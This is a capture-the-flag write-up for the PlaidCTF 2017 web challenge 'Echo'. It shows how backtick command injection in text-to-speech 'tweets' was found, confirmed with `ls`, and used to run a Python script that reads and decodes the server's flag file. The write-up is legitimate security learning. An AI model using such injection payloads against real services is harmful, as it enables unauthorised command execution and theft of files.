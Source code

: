 ```yaml
---
layout: page
title: "PlaidCTF 2017 Writeup: Echo"
---
```


> Echo
> 
> Web (200 pts)
>
> If you hear enough, you may hear the whispers of a key... 
>
> If you see [app.py]({{ site.baseurl }}/ctfs/pctf2017/echo/echo.py) well enough, you will notice the UI sucks... 
>
> http://echo.chal.pwning.xxx:9977/ 
>
> http://echo2.chal.pwning.xxx:9977/

Loved this challenge... Once I knew I could execute code on the system it became pure fun. :smile:
 
We are given a UI where one can enter 4 "tweets" (140 character messages), and have them processed and read back to us via the voice synthesizer. The code seems fairly tight, no path traversal or other tricks are possible... However, when trying a variety of characters in the tweets I found that the dollar sign and the backtick cause a system error.

Yay, command injection! :smile: To confirm we can send ``` `ls` ``` as a tweet and have the folder contents read to us.

It looks like the code vulnerable to injection lives in ```run.py``` executed by Docker. It does have access to the obfuscated flag file in the ```/share``` folder. So what we can do is submit (minimalistic) code to decipher the flag and have it read back to us.

Here's a script that will do it. It is a reverse of the encoding algorithm from the script supplied to us. For clarity the characters in the flag are written out as decimal numbers (I found that everything else was read in a garbled way, with letters swallowed or unclear):

```python
f=''
i=1
c=0
r=open('/share/flag','rb').read()
for x in r:
	c^=ord(x)
	if i%65000==0:
		f+=str(c)+' '
		c=0
	i+=1
print f
```

Once we submit the script...:

![tweets.png]({{ site.baseurl }}/ctfs/pctf2017/echo/tweets.png)

... we get back the vocalized list of values:

![result.png]({{ site.baseurl }}/ctfs/pctf2017/echo/result.png)

The [delivered audio file]({{ site.baseurl }}/ctfs/pctf2017/echo/3.wav) sounds fairly clear and gives us the following sequence of numbers:

```80 67 84 70 123 76 49 53 115 116 51 110 95 84 48 95 95 114 101 101 101 95 114 101 101 101 101 101 101 95 114 101 101 101 95 108 97 125```

Once converted to characters, they produce a flag: ```PCTF{L15st3n_T0__reee_reeeeee_reee_la}```.